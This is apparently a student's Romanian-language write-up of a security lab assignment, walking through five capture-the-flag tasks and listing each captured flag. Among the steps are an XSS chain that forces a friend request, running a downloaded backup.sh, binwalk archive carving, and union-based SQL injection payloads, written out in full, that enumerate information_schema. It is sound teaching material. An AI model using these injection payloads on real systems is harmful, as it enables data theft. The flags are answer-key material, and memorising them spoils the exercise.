 Stefan Diana - 332CC
TEMA 2 ISC 

TASK 1:
    -> Am rulat scriptul "connect.sh", si am aflat adresa ip si portul prin comanda 
    "nmap" (172.32.57.1, 80).
    -> Am rulat scriptul "webtunnel.sh" cu argumentele gasite, pentru a crea tunelul.
    -> Am deschis site ul in browser si am observat ca butonul "Register" conduce catre 
    "http://localhost:8080/auth/fake_register".
    -> Am inspectat codul html si am gasit link ul corect 
    ("http://localhost:8080/auth/register_real_one"), unde am creat un nou cont si apoi 
    m-am conectat.
    -> Am dat iar "Inspect" si in sursa am gasit flag ul: 
    SpeishFlag{xjzHAl9ZzDAZu4v6LdvDGlmmF3fl3Ez4}.

TASK 2:
    -> Mesajele postate de Boss sunt vizibile doar pentru prietenii acestuia, ceea ce 
    inseamna ca trebuie sa ma adauge la prieteni, insa nu accepta cereri.
    -> Se face un atac XSS prin mesaje, cum este prezentat in hint uri.
    -> Nu se poate trimite un mesaj direct catre Boss, deoarece nu suntem prieteni.
    -> L-am adaugat ca prieten pe Kat Nyan, singurul de la care aveam o cerere, pentru 
    a trimite mesaje catre el.
    -> I-am trimis un script pe care, cand il executa, sa ii trimita lui Boss un al doilea 
    script, care consta in apelarea functiei "addFriendProfile", gasita in codul sursa, 
    pentru a il forta sa ne dea o cerere de prietenie.
    -> In mesajul postat de Boss am gasit flag ul: 
    SpeishFlag{vr1kCps2dt28fzX8IHXyJyoaL5BcjFEj}.

TASK 3:
    -> Am dat comanda "curl http://localhost:8080/backup.sh", dupa hint ul din postarea 
    lui Boss, si am rulat continutul.
    -> Am observat ca se alipsesc doua arhive, iar numele rezultatului are formatul unei 
    date, deci am incercat variante pana am gasit data corecta (2023-12-29).
    -> Am folosit utilitarul binwalk pentru a afla indexul de la care incepe fiecare 
    arhiva.
    -> Am extras a doua arhiva, folosind offset ul, am dezarhivat-o si am obtinut flag ul: 
    SpeishFlag{TTFzaY13LRyqqDg6BzjfB2qnwhc1vXBj}.

TASK 4:
    -> Fiind vorba de SQL injection, m am gandit ca baza de date s ar putea lega de 
    utilizatori.
    -> Am incercat comenzi de SQL injection in mai multe adrese url ale site ului si am 
    observat ca baza de date returneaza o eroare la adresa "http://localhost:8080/inside/p/".
    -> Ca sa aflu numarul de coloane, am incercat mai multe variante de forma 
    "'UNION SELECT NULL,NULL,..,NULL --;", pana s-a intors ceva valid. Am aflat ca sunt 8 
    coloane.
    -> Am aflat table_schema (web_485) adaugand secventa: 
    ' UNION SELECT 1, 2,group_concat(distinct(table_schema)),4,5,6,7,8 FROM 
    information_schema.tables -- ;
    -> Am aflat numele tabelului (flags40243), prin: 
    ' UNION SELECT 1, 2,group_concat(distinct(table_name)),4,5,6,7,8 FROM 
    information_schema.tables WHERE table_schema='web_485' -- ;
    -> Am aflat numele coloanei (zaflag), prin: 
    ' UNION SELECT 1, 2,group_concat(column_name),4,5,6,7,8 FROM information_schema.columns 
    WHERE table_schema='web_485' AND table_name='flags40243' -- ;
    -> Am aflat flag ul prin: ' UNION SELECT 1, 2,zaflag,4,5,6,7,8 FROM flags40243 -- ;
    -> Flag ul gasit este: SpeishFlag{bA9HlVmOnzVilKvuZ68tlon3O0CQROq7}.

TASK 5:
    -> Am dat tcpdump pe interfata eth0 ca sa observ traficul.
    -> Am preluat partea encodata cu base64 dintre sirul de "NYAN" si am decodat-o.
    -> Am obtinut flag ul: SpeishFlag{mBKw2rxC2k8zRlBILouykBvzeGac9t7s}.
